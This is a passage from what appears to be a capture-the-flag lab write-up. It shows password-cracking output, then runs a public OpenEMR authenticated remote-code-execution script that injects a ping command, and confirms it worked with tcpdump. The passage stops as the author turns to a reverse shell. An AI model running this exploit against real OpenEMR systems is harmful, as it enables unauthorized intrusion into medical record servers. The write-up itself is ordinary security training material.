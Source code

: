```
Restore.Point....: 768/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:30-32
Candidates.#1....: football1 -> sandy

Started: Mon May 11 12:17:22 2020
Stopped: Mon May 11 12:17:42 2020

```

### Authenticated Code Execution

#### POC

Now I can run the exploit script from searchsploit. I’ll try to have Cache ping me to test:

```

root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'ping -c 1 10.10.14.47' http://hms.htb
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
[$] Payload executed

```

In a separate window with `tcpdump` running, it works:

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:35:26.704809 IP 10.10.10.188 > 10.10.14.47: ICMP echo request, id 7655, seq 1, length 64
12:35:26.704882 IP 10.10.14.47 > 10.10.10.188: ICMP echo reply, id 7655, seq 1, length 64 

```

#### Shell

Now I’ll get a shell by replacing the `ping` with a reverse shell:
